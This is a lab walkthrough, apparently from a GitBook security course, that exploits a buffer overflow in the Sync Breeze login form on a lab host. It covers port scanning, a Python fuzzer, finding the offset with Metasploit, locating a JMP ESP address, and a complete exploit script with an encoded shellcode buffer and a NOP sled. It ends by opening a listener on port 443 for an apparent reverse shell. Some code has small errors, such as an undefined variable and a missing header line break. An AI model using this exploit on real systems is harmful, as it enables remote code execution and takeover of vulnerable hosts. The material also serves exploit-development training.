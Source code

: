 # sync breeze

![image.png](<../../../../.gitbook/assets/image (2) (1).png>)

*   **Scan machine**

    we start to scan port number by using `unicornscan` tool which is faster than nmap. you can install it by this command `sudo apt install unicornscan`

    ![Screenshot 2025-03-13 231202.png](<../../../../.gitbook/assets/Screenshot_2025 03 13_231202.png>)

    ```bash
    sudo unicornscan -ImT 10.0.2.4:1-2000 # 1-2000 scan ports from 1 to 2000
    ```

    we discovered this ports is open let’s know what’s the service is running for each port

<figure><img src="../../../../.gitbook/assets/Screenshot_2025 03 13_231202.png" alt=""><figcaption></figcaption></figure>

after search we find this is old version which is vulnerable to BOF so lets download this service and try to exploit it in our services

*   **Fuzzing**

    open the browser and Wireshark tool then show the request was sent

    ![Screenshot 2025-03-13 231447.png](<../../../../.gitbook/assets/Screenshot_2025 03 13_231447.png>)

    try to create python code to smash the vulnerable machine

    ```bash
    #!/bin/python3
    import socket
    import sys
    import time
    target_ip = "10.0.2.4"
    target_port = 80  
    l = 100
    step = 100 
    while True:
        try:
            payload = "username=" + "A" * l + "&password=1234"
            request=""
            request+="POST /login HTTP/1.1\r\n"
            request+="Host: 10.0.2.4\r\n"
            request+="User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0\r\n"
            request+="Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
            request+="Accept-Language: en-US,en;q=0.5\r\n"
            request+="Accept-Encoding: gzip, deflate\r\n"
            request+="Content-Type: application/x-www-form-urlencoded\r\n"
            request+=f"Content-Length: {len(payload)}\r\n"
            request+="Origin: http://10.0.2.4"
            request+="Connection: keep-alive\r\n"
            request+="Referer: http://10.0.2.4/login\r\n"
            request+="Upgrade-Insecure-Requests: 1\r\n"
            request+="Priority: u=0, i\r\n"
            request+="\r\n"
            request+=payloadS

            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.connect((target_ip, 80))
            print(f"Sending {l} bytes...")
            s.send(request.encode())
            response = s.recv(1024) 
            print(f"Response: {response.decode(errors='ignore')}")
            s.close()
            print(f"Trying payload size: {l} bytes...")
            l += step
            time.sleep(1)
        except Exception as e:
            print(f"Fuzzing crashed at {l} bytes")
            sys.exit()
    ```

    run this script and we will notice this machine is crashed after 800 char sent

    ![1.png](../../../../.gitbook/assets/1.png)
*   **locate offset**

    create offset by using Metasploit

<figure><img src="../../../../.gitbook/assets/image 2 (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
./pattern_create.rb -l 800
```

then send it by python script we will notice this machine is crashed

<figure><img src="../../../../.gitbook/assets/image 3 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

and the offset is 780

let’s know which is four is overwrite in EIP

![3.png](../../../../.gitbook/assets/3.png)

*   **Hijack execution**

    use `nasm shell` tool to transfer **JMP ESP** to op code

<figure><img src="../../../../.gitbook/assets/image 4 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

use mona to search on this code we found this add `10090C83`

after transfer this address to **Little Endian**

<figure><img src="../../../../.gitbook/assets/image 5 (1) (1).png" alt=""><figcaption></figcaption></figure>

```python
#!/bin/python3
import socket
import sys
import time

target_ip = "10.0.2.4"
target_port = 80   

add = b"A" * 780 + b"\x83\x0C\x09\x10" + b"C" * 16
payload = b"username=" + add + b"&password=1234"

request = b"POST /login HTTP/1.1\r\n"
request += b"Host: 10.0.2.4\r\n"
request += b"User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0\r\n"
request += b"Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
request += b"Accept-Language: en-US,en;q=0.5\r\n"
request += b"Accept-Encoding: gzip, deflate\r\n"
request += b"Content-Type: application/x-www-form-urlencoded\r\n"
request += b"Content-Length: " + str(len(payload)).encode() + b"\r\n"
request += b"Origin: http://10.0.2.4\r\n"
request += b"Connection: close\r\n"
request += b"Referer: http://10.0.2.4/login\r\n"
request += b"Upgrade-Insecure-Requests: 1\r\n"
request += b"Priority: u=0, i\r\n"
request += b"\r\n"
request += payload  

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((target_ip, target_port))
s.sendall(request)  
response = s.recv(4096)
print(f"Response: {response.decode(errors='ignore')}")
s.close()
```

*   **craft shellcode**

    discover bad characters then generate a shell code&#x20;

<figure><img src="../../../../.gitbook/assets/image 6 (1).png" alt=""><figcaption></figcaption></figure>

<pre class="language-python"><code class="lang-python"><strong>#!/bin/python3
</strong>import socket
import sys
import time
target_ip = "10.0.2.4"
target_port = 80   

# ESP add 10090C83

buf =  b""
buf += b"\xd9\xc4\xd9\x74\x24\xf4\x5d\xba\xc3\xd9\xbf\x94"
buf += b"\x29\xc9\xb1\x52\x31\x55\x17\x83\xed\xfc\x03\x96"
buf += b"\xca\x5d\x61\xe4\x05\x23\x8a\x14\xd6\x44\x02\xf1"
buf += b"\xe7\x44\x70\x72\x57\x75\xf2\xd6\x54\xfe\x56\xc2"
buf += b"\xef\x72\x7f\xe5\x58\x38\x59\xc8\x59\x11\x99\x4b"
buf += b"\xda\x68\xce\xab\xe3\xa2\x03\xaa\x24\xde\xee\xfe"
buf += b"\xfd\x94\x5d\xee\x8a\xe1\x5d\x85\xc1\xe4\xe5\x7a"
buf += b"\x91\x07\xc7\x2d\xa9\x51\xc7\xcc\x7e\xea\x4e\xd6"
buf += b"\x63\xd7\x19\x6d\x57\xa3\x9b\xa7\xa9\x4c\x37\x86"
buf += b"\x05\xbf\x49\xcf\xa2\x20\x3c\x39\xd1\xdd\x47\xfe"
buf += b"\xab\x39\xcd\xe4\x0c\xc9\x75\xc0\xad\x1e\xe3\x83"
buf += b"\xa2\xeb\x67\xcb\xa6\xea\xa4\x60\xd2\x67\x4b\xa6"
buf += b"\x52\x33\x68\x62\x3e\xe7\x11\x33\x9a\x46\x2d\x23"
buf += b"\x45\x36\x8b\x28\x68\x23\xa6\x73\xe5\x80\x8b\x8b"
buf += b"\xf5\x8e\x9c\xf8\xc7\x11\x37\x96\x6b\xd9\x91\x61"
buf += b"\x8b\xf0\x66\xfd\x72\xfb\x96\xd4\xb0\xaf\xc6\x4e"
buf += b"\x10\xd0\x8c\x8e\x9d\x05\x02\xde\x31\xf6\xe3\x8e"
buf += b"\xf1\xa6\x8b\xc4\xfd\x99\xac\xe7\xd7\xb1\x47\x12"
buf += b"\xb0\xb7\x97\x1e\x45\xa0\x95\x1e\x44\x8b\x13\xf8"
buf += b"\x2c\xfb\x75\x53\xd9\x62\xdc\x2f\x78\x6a\xca\x4a"
buf += b"\xba\xe0\xf9\xab\x75\x01\x77\xbf\xe2\xe1\xc2\x9d"
buf += b"\xa5\xfe\xf8\x89\x2a\x6c\x67\x49\x24\x8d\x30\x1e"
buf += b"\x61\x63\x49\xca\x9f\xda\xe3\xe8\x5d\xba\xcc\xa8"
buf += b"\xb9\x7f\xd2\x31\x4f\x3b\xf0\x21\x89\xc4\xbc\x15"
buf += b"\x45\x93\x6a\xc3\x23\x4d\xdd\xbd\xfd\x22\xb7\x29"
buf += b"\x7b\x09\x08\x2f\x84\x44\xfe\xcf\x35\x31\x47\xf0"
buf += b"\xfa\xd5\x4f\x89\xe6\x45\xaf\x40\xa3\x76\xfa\xc8"
buf += b"\x82\x1e\xa3\x99\x96\x42\x54\x74\xd4\x7a\xd7\x7c"
buf += b"\xa5\x78\xc7\xf5\xa0\xc5\x4f\xe6\xd8\x56\x3a\x08"
buf += b"\x4e\x56\x6f"

add = b"A" * 780 + b"\x83\x0C\x09\x10" + b"\x90" * 32+buf
payload = b"username=" + add + b"&#x26;password=1234"

request = b"POST /login HTTP/1.1\r\n"
request += b"Host: 10.0.2.4\r\n"
request += b"User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0\r\n"
request += b"Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
request += b"Accept-Language: en-US,en;q=0.5\r\n"
request += b"Accept-Encoding: gzip, deflate\r\n"
request += b"Content-Type: application/x-www-form-urlencoded\r\n"
request += b"Content-Length: " + str(len(payload)).encode() + b"\r\n"
request += b"Origin: http://10.0.2.4\r\n"
request += b"Connection: close\r\n"
request += b"Referer: http://10.0.2.4/login\r\n"
request += b"Upgrade-Insecure-Requests: 1\r\n"
request += b"Priority: u=0, i\r\n"
request += b"\r\n"
request += payload  
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((target_ip, target_port))
s.sendall(request)  
response = s.recv(4096)  
print(f"Response: {response.decode(errors='ignore')}")
s.close()
</code></pre>

*   **execute shellcode**

    open listener on port 443

<figure><img src="../../../../.gitbook/assets/image 7.png" alt=""><figcaption></figcaption></figure>

